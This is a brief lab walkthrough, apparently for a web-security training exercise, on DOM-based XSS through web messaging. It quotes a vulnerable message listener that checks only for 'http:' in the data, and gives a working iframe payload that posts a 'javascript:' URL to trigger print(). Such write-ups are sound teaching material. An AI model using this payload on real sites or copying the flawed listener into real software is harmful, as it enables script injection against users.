 Title: DOM XSS using web messages and a JavaScript URL
Level: PRACTITIONER
Desc: This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

# Walkthrough:
In this lab we have this function:

<img width="1104" height="222" alt="image" src="https://github.com/user-attachments/assets/ef35ce6e-0bdc-4610-a1d8-7f683787e9f4" />

and this vulnerable code: 
```
<script>
                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);
                    </script>
```

payload for that:
`<iframe src="https://0afd001a0333311b80d203a6004000f6.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:', '*')">`
